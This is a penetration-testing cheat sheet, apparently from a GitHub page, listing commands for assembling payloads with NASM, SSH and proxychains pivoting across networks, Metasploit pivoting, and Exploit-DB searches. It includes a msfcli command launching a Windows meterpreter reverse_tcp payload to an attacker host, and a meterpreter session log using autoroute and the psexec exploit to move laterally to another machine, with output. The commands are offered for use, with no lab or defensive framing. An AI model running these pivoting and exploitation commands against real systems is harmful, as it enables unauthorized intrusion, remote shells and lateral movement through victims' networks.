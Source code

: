### NASM Commands
{% highlight bash %}
nasm -f bin -o payload.bin payload.asm
nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload
{% endhighlight %}

### SSH Pivoting 
{% highlight bash %}
ssh -D 127.0.0.1:1080 -p 22 user@IP
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains commands target
{% endhighlight %}

### SSH Pivoting from One Network to Another
{% highlight bash %}
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
{% endhighlight %}

### Pivoting Using metasploit
{% highlight bash %}
route add X.X.X.X 255.255.255.0 1
use auxiliary/server/socks4a
run
proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

or

# https://www.offensive-security.com/metasploit-unleashed/pivoting/
meterpreter > ipconfig
IP Address  : 10.1.13.3
meterpreter > run autoroute -s 10.1.13.0/24
meterpreter > run autoroute -p
10.1.13.0          255.255.255.0      Session 1
meterpreter > Ctrl+Z
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.1.13.2
msf exploit(psexec) > exploit
meterpreter > ipconfig
IP Address  : 10.1.13.2
{% endhighlight %}

### Exploit-DB search using CSV File
{% highlight bash %}
git clone https://github.com/offensive-security/exploit-database.git
cd exploit-database
./searchsploit –u
./searchsploit apache 2.2
./searchsploit "Linux Kernel"

cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep "<|<=" | sort -k3
{% endhighlight %}
